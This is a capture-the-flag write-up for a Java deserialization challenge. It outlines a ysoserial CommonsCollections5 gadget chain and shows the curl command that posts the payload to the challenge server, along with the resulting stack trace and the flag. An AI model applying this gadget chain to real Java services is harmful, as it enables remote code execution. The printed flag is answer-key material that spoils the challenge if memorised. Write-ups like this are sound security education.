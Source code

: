 # Misc 300

The flag marshal has falsely imprisoned a flag for being a deserial killer. Your mission is simple, break the flag out of the marshal's jail (http://theflagmarshal.us-east-1.elasticbeanstalk.com/). In addition to the bad puns, you seem to have stumbled upon another clue, blueprint.war.

# Analysis

You are given a Java servlet that receives data sent via POST request, deserializes it and converts to a Person object. However, sending the data normally won't get you the flag. You need to find a way around that to get the flag (from the Flag class)

After decompiling the classes and inspecting them, here are the bits of information you need to solve the challenge:
* If there is an error in deserialization, the exception is thrown back to the client
* Flag can be retrieved by an exception thrown from Flag.getFlag().
* So the goal is to send a payload that invokes Flag.getFlag() when deserialized. This is not a simple task.
* To make things tougher for everyone, CustomOIS has been designed to only accept some certain classes in the invocation chain (see [CustomOIS.java](CustomOIS.java))

# Solution

Deserialization vulnerabilities have been used a lot recently in CTFs, however they are mostly in Python (probably due to the fact that many players use Python nowadays). That doesn't mean Java vulnerabilities have not been researched. In fact, there have been many publications about them:
* [OWASP - Deserialization of untrusted data](https://www.owasp.org/index.php/Deserialization_of_untrusted_data)
* [What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
* [Blind Java Deserialization Vulnerability - Commons Gadgets](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)
* [ysoserial - A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.](https://github.com/frohoff/ysoserial)

Now it's clear what to do. Although the description is a bit misleading, [ysoserial's CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) can be used to build the gadget chain, something like this:

```
ObjectInputStream.readObject()
  BadAttributeValueExpException.toString()
    TiedMapEntry.toString()
      LazyMap.get()
        ChainedTransformer.transform()
        ConstantTransformer.transform()
        InvokerTransformer.transform()
          Method.invoke()
            Class.getMethod()
        InvokerTransformer.transform()
          Method.invoke()
            Flag.getFlag()
```
*Some of the method names might be wrong, but it doesn't matter - you get the idea*

Full code to generate the payload: [FlagWriter.java](FlagWriter.java)

Now just send the payload to the server and the flag is thrown in exception:
```
C:\ctf_tools\curl-7.61.1-win64-mingw\bin>curl --data-binary @"MyFlag.bin" http://theflagmarshal.us-east-1.elasticbeanstalk.com/jail
org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'invoke' on 'class java.lang.reflect.Method' threw an exception
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:132)
        at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
        at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:131)
        at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
        at sun.reflect.GeneratedMethodAccessor24.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2177)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2068)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1572)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:430)
        at com.trendmicro.Server.doPost(Server.java:31)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
        at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
        at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
        at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
        at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
        at org.apache.catalina.valves.RemoteIpValve.invoke(RemoteIpValve.java:685)
        at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:650)
        at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
        at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
        at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
        at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
        at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:800)
        at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1471)
        at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
        at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor27.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
        ... 39 more
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor26.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        ... 43 more
Caused by: java.lang.Exception: TMCTF{15nuck9astTheF1agMarsha12day}
        at com.trendmicro.jail.Flag.getFlag(Flag.java:10)
        ... 46 more
```

Flag is **TMCTF{15nuck9astTheF1agMarsha12day}**

